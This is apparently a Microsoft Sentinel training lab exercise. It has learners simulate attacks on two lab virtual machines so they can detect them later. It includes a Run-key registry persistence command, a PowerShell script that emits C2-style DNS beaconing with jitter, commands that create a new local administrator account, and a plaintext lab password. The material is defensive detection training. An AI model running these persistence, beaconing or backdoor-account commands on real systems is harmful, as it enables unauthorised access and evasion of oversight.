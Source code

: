```yaml
---
lab:
    title: 'Exercise 5 - Conduct attacks'
    module: 'Module 7 - Create detections and perform investigations using Microsoft Sentinel'
---
```


# Module 7 - Lab 1 - Exercise 5 - Conduct attacks

## Lab scenario

You are going to simulate the attacks that you will later use to detect and investigate in Microsoft Sentinel.


### Task 1: Attack Windows configured with Defender for Endpoint

In this task, you will perform attacks on a host with Microsoft Defender for Endpoint configured.

1. Login to WIN1 virtual machine as Admin with the password: **Pa55w.rd**.  

1. In the search of the task bar, enter *Command*. Command Prompt will be displayed in the search results. Right-click on the Command Prompt and select **Run as Administrator**. Select **Yes** in the User Account Control window that appears to allow the app to run.

1. In the Command Prompt, create a Temp folder in the root directory. Remember to press Enter after the last row:

    ```CommandPrompt
    cd \
    mkdir temp
    cd temp
    ```

#### Attack 1 - Persistence with Registry Key Add

1. Copy and run this command to simulate program persistence:

    ```CommandPrompt
    REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
    ```

#### Attack 3 - DNS / C2 

1. Copy and run this command to create a script that will simulate a DNS query to a C2 server:

    ```CommandPrompt
    notepad c2.ps1
    ```

1. Select **Yes** to create a new file and copy the following PowerShell script into *c2.ps1*.

    >**Note:** Paste into the virtual machine might have a limited length. Make sure the script looks as it does in these instructions within the *c2.ps1* file.

    ```PowerShell
    param(
        [string]$Domain = "microsoft.com",
        [string]$Subdomain = "subdomain",
        [string]$Sub2domain = "sub2domain",
        [string]$Sub3domain = "sub3domain",
        [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
    )
    $RunStart = Get-Date
    $RunEnd = $RunStart.addminutes($RunTime)
    $x2 = 1
    $x3 = 1 
    Do {
        $TimeNow = Get-Date
        Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        if ($x2 -eq 3 )
        {
            Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
            $x2 = 1
        }
        else
        {
            $x2 = $x2 + 1
        }    
        if ($x3 -eq 7 )
        {
            Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
            $x3 = 1
        }
        else
        {
            $x3 = $x3 + 1
        }
        $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
        Start-Sleep -Seconds $Jitter
    }
    Until ($TimeNow -ge $RunEnd)
    ```

1. In the Notepad menu, select **File** and then **Save**. 

1. Go back to the Command Prompt window, enter the following command and press Enter. 

    >**Note:** A new PowerShell window will open and you will see resolve errors. This is expected.

    ```CommandPrompt
    Start PowerShell.exe -file c2.ps1
    ```

>**Important:** Do not close these windows. Let this PowerShell script run in the background. The command needs to generate log entries for some hours. You can proceed to the next task and next exercises while this script runs. The data created by this task will be used in the Threat Hunting lab later. This process will not create substantial amounts of data or processing.


### Task 2: Attack Windows configured with Sysmon

In this task, you will perform attacks on a host with the Security Events connector configured and Sysmon configured.

>**Important:** The next steps are done in a different machine than the one you were previously working. Look for the Virtual Machine name references.

1. Login to WIN2 virtual machine as Admin with the password: **Pa55w.rd**.  

1. In the search of the task bar, enter *Command*. Command Prompt will be displayed in the search results. Right-click on the Command Prompt and select **Run as Administrator**. Select **Yes** in the User Account Control window that appears to allow the app to run. **Hint:** You might have a Command Prompt as Administrator open from a previous exercise.

1. In the Command Prompt, create a Temp folder in the root directory. Remember to press Enter after the last row:

    ```CommandPrompt
    cd \
    mkdir temp
    cd \temp
    ```

#### Attack 1 - Persistence with Registry Key Add

1. Copy and run this command to simulate program persistence:

    ```CommandPrompt
    REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
    ```

>**Note:** We are using the same *persistence* tactic just like in WIN1, but we will use a different detection in the next exercise.

#### Attack 2 - User Add and Elevate Privilege

1. Copy and run this command to simulate the creation of an Admin account. Remember to press Enter after the last row:

    ```CommandPrompt
    net user theusernametoadd /add
    net user theusernametoadd ThePassword1!
    net localgroup administrators theusernametoadd /add
    ```

## Proceed to Exercise 6
